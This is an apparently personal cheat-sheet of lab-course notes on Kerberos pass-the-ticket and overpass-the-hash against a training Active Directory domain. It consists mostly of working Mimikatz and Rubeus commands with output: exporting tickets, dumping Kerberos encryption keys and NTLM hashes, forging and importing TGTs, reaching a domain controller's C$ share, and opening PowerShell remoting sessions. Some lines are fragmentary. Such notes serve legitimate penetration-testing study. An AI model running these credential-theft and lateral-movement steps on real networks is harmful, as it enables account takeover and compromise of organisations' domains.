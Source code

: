 
## pass the ticket

extract kerberos TGT tickets with mimikatz
```
sekurlsa::tickets /export

```
with rubeas
```cmd-session
 Rubeus.exe dump /nowrap

#BASE64ENC
```


## (Pass the keys) Forging TGT Keys from NTLMs

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`. This module will enumerate all key types present for the Kerberos package.

#### Mimikatz - Extract Kerberos keys

```cmd-session

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::ekeys

Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
```


use the keys to forge TGT (admin required)

```cmd-session
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

Forge TGT keys with rubeas `asktgt` by supplying Kerberos e-key: (no admin required)
```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 3f74aa8f08f712f09cd5177b5c1ce50f
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\plaintext'
[+] TGT request successful!
[*] Base64(ticket.kirbi):

doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEXX

```

To learn more about the difference between Mimikatz `sekurlsa::pth` and Rubeus `asktgt`, consult the Rubeus tool documentation [Example for OverPass the Hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash).



this technique forges the ticket and then imports it to current session
```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
Note that now it displays `Ticket successfully imported!`.

## Pass the Ticket (PtT)


Now that we have some Kerberos tickets, we can use them to move laterally within an environment.
import TGT ticket to session
```
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

*] Action: Import Ticket
[+] ticket successfully imported!

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$
```

#### Convert .kirbi to Base64 Format

```powershell-session
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

doQhAAAAAMCAQKsuDA4CgsuSZcBSo/jMnDjucWNtlDc8ez6...SNIP...
```

pass the ticket can also be done with b64
```cmd-session
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/Vh
```

`kerberos::ptt` and the .kirbi file that contains the ticket we want to import.

#### Mimikatz - Pass the Ticket

Pass the Ticket (PtT) from Windows

```cmd-session
C:\tools> mimikatz.exe 


mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

* File: 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-
 
plaintext@krbtgt-inlanefreight.htb.kirbi': OK
mimikatz # exit
Bye!

c:\tools> dir \\DC01.inlanefreight.htb\c$
```

we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

## remoting after ptt
To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Let's open a new `cmd.exe` and execute `mimikatz.exe`, then import the ticket we collected using `kerberos::ptt`

#### Mimikatz - Pass the Ticket for lateral movement.
```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

* File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

mimikatz # exit
Bye!
```

with rubeas
```cmd-session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
f `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

```cmd-session

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```
